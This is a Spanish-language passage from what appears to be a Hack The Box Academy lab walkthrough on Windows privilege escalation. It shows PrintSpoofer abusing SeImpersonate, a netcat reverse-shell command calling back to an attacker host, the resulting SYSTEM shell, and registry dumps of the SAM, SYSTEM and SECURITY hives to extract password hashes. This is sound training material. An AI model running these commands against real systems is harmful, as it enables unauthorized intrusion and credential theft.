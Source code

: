 
## Privilege Escalation

A continuación, necesitamos escalar privilegios. En la salida del comando anterior, vimos que tenemos privilegios de `SeImpersonate`. Siguiendo los pasos en la sección [SeImpersonate and SeAssignPrimaryToken](https://academy.hackthebox.com/module/67/section/607) en el módulo de `Windows Privilege Escalation`, podemos trabajar para escalar nuestros privilegios a SYSTEM, lo que resultará en un punto de apoyo inicial en el Active Directory (AD) domain y nos permitirá comenzar a enumerar AD.

Intentaremos escalar privilegios usando la herramienta `PrintSpoofer` y luego ver si podemos obtener credenciales útiles de la memoria del host o del registro. Necesitaremos `nc.exe` en el host DEV01 para enviarnos una shell y el binario `PrintSpoofer64.exe` para aprovechar los privilegios de `SeImpersonate`. Hay algunas formas de transferirlos allí. Podríamos usar el host `dmz01` como un "jump host" y transferir nuestras herramientas a través de él mediante SCP y luego iniciar un servidor web Python3 y descargarlas en el host DEV01 usando `certutil`.

Una forma más fácil sería modificar nuevamente las `Allowable File Extensions` de DNN para permitir el formato de archivo `.exe`. Luego podemos subir ambos archivos y confirmar a través de nuestra shell que están ubicados en `c:\DotNetNuke\Portals\0`.

Una vez subidos, podemos iniciar un `Netcat` listener en el host `dmz01` y ejecutar el siguiente comando para obtener una reverse shell como `NT AUTHORITY\SYSTEM`:

```r
c:\DotNetNuke\Portals\0\PrintSpoofer64.exe -c "c:\DotNetNuke\Portals\0\nc.exe 172.16.8.120 443 -e cmd"
```

Ejecutamos el comando y obtenemos una reverse shell casi de inmediato.

```r
root@dmz01:/tmp# nc -lnvp 443

Listening on 0.0.0.0 443
Connection received on 172.16.8.20 58480
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>hostname
hostname
ACADEMY-AEN-DEV01
```

Desde aquí, podemos realizar alguna post-exploitation y recuperar manualmente el contenido de la base de datos SAM y con ella, el hash de la contraseña del administrador local.

```r
c:\DotNetNuke\Portals\0> reg save HKLM\SYSTEM SYSTEM.SAVE
reg save HKLM\SYSTEM SYSTEM.SAVE

The operation completed successfully.

c:\DotNetNuke\Portals\0> reg save HKLM\SECURITY SECURITY.SAVE
reg save HKLM\SECURITY SECURITY.SAVE

The operation completed successfully.

c:\DotNetNuke\Portals\0> reg save HKLM\SAM SAM.SAVE
reg save HKLM\SAM SAM.SAVE

The operation completed successfully.
```
